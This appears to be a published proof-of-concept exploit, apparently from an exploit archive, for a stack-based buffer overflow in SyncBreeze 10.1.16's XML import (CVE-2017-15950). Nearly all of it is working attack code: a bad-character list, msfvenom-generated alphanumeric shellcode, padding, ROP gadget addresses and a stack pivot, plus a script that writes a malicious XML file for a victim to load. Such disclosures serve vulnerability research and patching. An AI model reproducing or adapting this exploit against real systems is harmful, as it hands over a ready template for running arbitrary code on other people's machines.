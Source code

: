 EXP
---

    # Exploit Title: SyncBreeze 10.1.16 - XML Parsing Stack-based Buffer Overflow
    # Date: 03/27/2021
    # Author: Filipe Oliveira - filipecenturiao[at]hotmail.com Rafael Machado  - nnszs[at]protonmail.com
    # Vendor: https://www.syncbreeze.com/
    # Software Link: https://www.4shared.com/file/57pE4sZfiq/syncbreeze_setup_v10116.html
    # Version: SyncBreeze v10.1.16 x86
    # Tested on: Windows 10 x64 (19042.867)
    # CVE: CVE-2017-15950

    Usage: The exploit will generate a POC file, called xplSyncBreeze.xml. Launch the application and click on Import Command, then load the POC file.

    # -*- coding: utf-8 -*-

    import struct

    # badchars
    #\x00\x0a\x0d\x20\x27
    #\x81\x82\x83\x84\x85\x86\x87\x88
    #\x89\x8A\x8B\x8C\x8D\x8E\x8F\x90
    #\x91\x92\x93\x94\x95\x96\x97\x98
    #\x99\x9A\x9B\x9C\x9D\x9E\x9F\xA0
    #\xA1\xA2\xA3\xA4\xA5\xA6\xA7\xA8
    #\xA9\xAA\xAB\xAC\xAD\xAE\xAF\xB0
    #\xB1\xB2\xB3\xB4\xB5\xB6\xB7\xB8
    #\xB9\xBA\xBB\xBC\xBD\xBE\xBF\xC0
    #\xC1\xC2\xC3\xC4\xC5\xC6\xC7\xC8
    #\xC9\xCA\xCB\xCC\xCD\xCE\xCF\xD0
    #\xD1\xD2\xD3\xD4\xD5\xD6\xD7\xD8
    #\xD9\xDA\xDB\xDC\xDD\xDE\xDF\xE0
    #\xE1\xE2\xE3\xE4\xE5\xE6\xE7\xE8
    #\xE9\xEA\xEB\xEC\xED\xEE\xEF\xF0
    #\xF1\xF2\xF3\xF4\xF5\xF6\xF7\xF8
    #\xF9\xFA\xFB\xFC\xFD\xFE\xFF

    # Shellcode payload size: 432 bytes
    # msfvenom -a x86 --platform windows -p windows/exec CMD=calc -e x86/alpha_mixed BufferRegister=EAX -b '\x00\x0A\x0D\x20\x27' -v shellcode -f python

    shellcode =  b""
    shellcode += b"\x50\x59\x49\x49\x49\x49\x49\x49\x49\x49\x49"
    shellcode += b"\x49\x49\x49\x49\x49\x49\x49\x37\x51\x5a\x6a"
    shellcode += b"\x41\x58\x50\x30\x41\x30\x41\x6b\x41\x41\x51"
    shellcode += b"\x32\x41\x42\x32\x42\x42\x30\x42\x42\x41\x42"
    shellcode += b"\x58\x50\x38\x41\x42\x75\x4a\x49\x6b\x4c\x69"
    shellcode += b"\x78\x4e\x62\x75\x50\x77\x70\x35\x50\x45\x30"
    shellcode += b"\x4b\x39\x59\x75\x55\x61\x39\x50\x52\x44\x4e"
    shellcode += b"\x6b\x42\x70\x50\x30\x6e\x6b\x42\x72\x54\x4c"
    shellcode += b"\x6c\x4b\x70\x52\x74\x54\x4c\x4b\x62\x52\x66"
    shellcode += b"\x48\x44\x4f\x48\x37\x61\x5a\x51\x36\x45\x61"
    shellcode += b"\x39\x6f\x6e\x4c\x75\x6c\x43\x51\x71\x6c\x65"
    shellcode += b"\x52\x56\x4c\x47\x50\x4b\x71\x38\x4f\x74\x4d"
    shellcode += b"\x37\x71\x49\x57\x38\x62\x7a\x52\x52\x72\x36"
    shellcode += b"\x37\x4c\x4b\x63\x62\x42\x30\x6c\x4b\x31\x5a"
    shellcode += b"\x57\x4c\x4c\x4b\x32\x6c\x36\x71\x31\x68\x4a"
    shellcode += b"\x43\x47\x38\x47\x71\x4a\x71\x76\x31\x6c\x4b"
    shellcode += b"\x36\x39\x67\x50\x66\x61\x58\x53\x4c\x4b\x70"
    shellcode += b"\x49\x66\x78\x59\x73\x34\x7a\x53\x79\x6e\x6b"
    shellcode += b"\x50\x34\x4c\x4b\x66\x61\x4e\x36\x55\x61\x39"
    shellcode += b"\x6f\x4c\x6c\x4a\x61\x4a\x6f\x34\x4d\x67\x71"
    shellcode += b"\x48\x47\x67\x48\x69\x70\x71\x65\x59\x66\x54"
    shellcode += b"\x43\x63\x4d\x79\x68\x75\x6b\x73\x4d\x67\x54"
    shellcode += b"\x44\x35\x79\x74\x72\x78\x4e\x6b\x53\x68\x71"
    shellcode += b"\x34\x57\x71\x5a\x73\x52\x46\x6c\x4b\x36\x6c"
    shellcode += b"\x72\x6b\x6c\x4b\x76\x38\x75\x4c\x67\x71\x68"
    shellcode += b"\x53\x6e\x6b\x57\x74\x4e\x6b\x63\x31\x78\x50"
    shellcode += b"\x6f\x79\x73\x74\x47\x54\x64\x64\x53\x6b\x31"
    shellcode += b"\x4b\x63\x51\x50\x59\x63\x6a\x43\x61\x39\x6f"
    shellcode += b"\x59\x70\x73\x6f\x31\x4f\x62\x7a\x4e\x6b\x44"
    shellcode += b"\x52\x6a\x4b\x4e\x6d\x53\x6d\x73\x5a\x63\x31"
    shellcode += b"\x4c\x4d\x4d\x55\x6f\x42\x75\x50\x47\x70\x33"
    shellcode += b"\x30\x46\x30\x50\x68\x74\x71\x6c\x4b\x42\x4f"
    shellcode += b"\x6e\x67\x39\x6f\x6e\x35\x6f\x4b\x58\x70\x78"
    shellcode += b"\x35\x79\x32\x46\x36\x33\x58\x79\x36\x4c\x55"
    shellcode += b"\x4f\x4d\x6d\x4d\x39\x6f\x6a\x75\x55\x6c\x63"
    shellcode += b"\x36\x61\x6c\x45\x5a\x6d\x50\x49\x6b\x39\x70"
    shellcode += b"\x32\x55\x75\x55\x6d\x6b\x57\x37\x64\x53\x74"
    shellcode += b"\x32\x52\x4f\x50\x6a\x53\x30\x61\x43\x59\x6f"
    shellcode += b"\x78\x55\x73\x53\x30\x61\x30\x6c\x72\x43\x43"
    shellcode += b"\x30\x41\x41"


    # padding to crash buffer
    basura = struct.pack('<L', 0x41414141) * 390

    # gadgets to move payload pointer into EAX
    GAD1 = struct.pack('<L', 0x65235465) # XCHG EAX,EBP
    GAD2 = struct.pack('<L', 0x6506537C) # CALL EAX

    # padding to reach buffer address stored in ebp
    basura2 = struct.pack('<L', 0x41414141) * 56

    # padding for stack pivot

    padding = struct.pack('<L', 0x41414141) * 4
    padding2 = struct.pack('<L', 0x41414141) * 20

    # stack pivot to reach an area with more space for gadgets on the stack
    # 0x6506491c: add esp, 0x48 ; pop edi ; pop esi ; ret

    pivot = struct.pack('<L', 0x6506491c)

    # final payload

    fruta = basura + pivot + padding + padding2 + GAD1 + GAD2 + basura2 + shellcode


    # write payload to xml file

    payload = open("xplSyncBreeze.xml", "wb")
    payload.write("<?xml version=\"1.0\" encoding=\"UTF-8\"?>\n\n".encode('utf-8'))

    payload.write("<sync name='".encode('utf-8'))
    payload.write(fruta)
    payload.write("'>\n</sync>\n".encode('utf-8'))

    payload.close()